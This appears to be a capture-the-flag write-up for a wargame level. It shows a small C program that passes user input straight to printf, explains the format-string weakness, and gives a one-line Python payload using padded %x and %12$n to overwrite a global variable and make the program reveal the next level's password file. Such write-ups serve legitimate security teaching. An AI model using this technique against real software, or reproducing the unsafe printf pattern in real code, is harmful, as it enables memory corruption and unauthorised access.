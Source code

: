 # Level4

## Code
```
#include <stdio.h>
#include <stdlib.h>

int m;

void p(char *buffer)
{
    printf(buffer);
}


void n()
{
    char buffer[512];

    fgets(buffer, 512, stdin);
    p(buffer);
    if (m == 16930116)
    {
        system("/bin/cat /home/user/level5/.pass");
    }
}

int main()
{
    n();
}
```

## Explanation

- This exercise is very similar to the previous one, with fgets and printf.

- So again, we played with the program giving it "AAAA %X %X %X %X %X....." and saw that our buffer was
    located at the 12th jump (it's further because there's one more function call to go through in the
    stack)

- The problem is that this time, we don't have to write "64" at a given address, but a much bigger value,
    0x1025544  (16930116 in decimal).

- So this time, given the size of our buffer, writing as many characters before a %n is out of the
    question. 

- Fortunately, you can give printf specifiers a padding with the syntax %<nbytes>x : so technically,
    even if our buffer is small, we can add as many whitespace characters as we want to reach the desired
    value for %n to write in the memory.

- So let's craft our final payload:

    `python -c 'print "\x10\x98\x04\x08" + "%16930112x%12$n"' | ./level4`

    + 4 bytes of the address of the variable we need to overwrite
    + the number of whitespaces needed to reach the desired value (16930116 - 4)
    + the final %n to write the number of characters printed so far at the address specified at the
        beginning of our payload. (Notice this syntax allows us to get directly to where the 12th
        argument should be without having to jump with a succession of %x)

- This time, no need to block the terminal with a "cat" command since the program immediately reads the
    .pass file


## Exploit
```
$   python -c 'print "\x10\x98\x04\x08" + "%16930112x%12$n"' | ./level4
```